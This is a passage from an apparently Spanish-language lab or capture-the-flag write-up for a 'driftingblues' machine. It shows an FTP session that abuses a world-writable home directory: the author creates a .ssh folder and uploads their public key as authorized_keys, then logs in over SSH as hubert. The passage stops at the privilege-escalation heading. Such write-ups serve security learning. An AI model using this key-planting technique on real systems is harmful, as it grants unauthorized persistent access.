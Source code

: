 ```bash
ftp> cd hubert
250 CWD command successful
ftp> ls -la
229 Entering Extended Passive Mode (|||64401|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 1001     1001         4096 Jan  9  2021 .
drwxrwxrwx   3 root     root         4096 Jan  9  2021 ..
226 Transfer complete
ftp> mkdir .ssh
257 "/hubert/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
229 Entering Extended Passive Mode (|||36778|)
150 Opening BINARY mode data connection for id_rsa.pub
100% |************************************************************************************|   563        8.80 MiB/s    00:00 ETA
226 Transfer complete
563 bytes sent in 00:00 (844.55 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||51501|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 luther   luther        563 Jan 28 12:12 id_rsa.pub
226 Transfer complete
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
ftp> ls
229 Entering Extended Passive Mode (|||41199|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 luther   luther        563 Jan 28 12:12 authorized_keys
226 Transfer complete
ftp>
```

Nos conectamos por `ssh`.

```bash
❯ ssh hubert@10.11.12.34 -i ~/.ssh/id_rsa
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hubert@driftingblues:~$
```

## Escalación de privilegios

---
